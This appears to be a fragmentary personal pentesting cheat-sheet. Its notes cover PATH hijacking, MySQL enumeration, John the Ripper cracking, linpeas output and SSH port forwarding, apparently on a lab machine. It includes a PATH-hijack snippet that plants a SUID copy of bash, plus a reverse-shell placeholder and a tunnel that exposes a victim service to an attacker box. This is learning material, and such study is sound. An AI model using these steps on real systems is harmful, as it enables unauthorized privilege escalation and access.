```yaml
---
sort : 1
--- 
```



# Soon... 


Network/wireless/physical/Firewall/Social Eng/ .... Penetration testing ?? 
<!-- https://purplesec.us/types-penetration-testing/ -->


<!-- https://start.me/p/PwmnBd/web --> ALL 
<!-- https://www.mindmeister.com/1470766611/web-app-pentest?fullscreen=1 -->



Finding real IP behind CloudFlare or Tor
<!-- https://www.secjuice.com/finding-real-ips-of-origin-servers-behind-cloudflare-or-tor/ -->



# be curious and not just a script kiddie.














# Attacks list

* PATH hijack  
    ```bash
    cd /tmp 
    export PATH=/tmp:$PATH

    echo "reverse shell" > bin
    # OR
    echo -ne '#!/bin/bash\ncp /bin/bash /tmp/bash\nchmod 4755 /tmp/bash' > bin 
    
    chmod +x bin
    ...

    ```
* Execution After Redirect (EAR)
* mysql ?? 
    ``` 
    mysql -u root -p 'passwd between qoutes' -e 'show databases;'
    mysql -u root -p 'passwd between qoutes' databaseName -e 'show tables;'
    mysql -u root -p 'passwd between qoutes' databaseName -e 'select * from table;' 
    ```







# Hash cracking
```bash
# md5   $1$ 

echo "hash" > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long hash.txt



# if you know the salt 




```

Single Page Application (SPA)" that was made using Vue Js.






# Linpeas.sh Analysis !! 

tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -      
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1837/node /u	sr/bin/ 
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -   




this shows the running services (maybe another web server ^^)

```
/etc/apache2/sites-enabled 
/etc/nginx/sites-enabled
```

# SSH Tunneling / port forwarding

https://linuxhint.com/ssh-port-forwarding-linux/

```bash
# local port forwarding : run on attacker box		
	
$ ssh -i User -L 8888:127.0.0.1:8000 User@10.10.11.105	==> after running it you will connect to the machine as a User ^^ 
$ id 
    uid=1001(User) gid=1001(User) groups=1001(User)

# go to the browser :: http://127.0.0.1:8888/   ===> forwarded to 127.0.0.1:8000 on the victim machine 

# means locally (on the attacker machine) bind my localhost with 8888 port to the service running on 127.0.0.1:8000 on this {ssh server} User@10.10.11.105
```

==> in /etc/sshd_config  ==> GateWayPorts yes ==> default is no   ////    must be yes

```bash
# remote port forwarding : run on victim box 		

$ ssh -R 8888:127.0.0.1:8000 Attacker@10.10.x.x

# means expose the local service (on the victime machine) running on port 8000 to port 8888 on this ssh server Attacker@10.10.x.x
```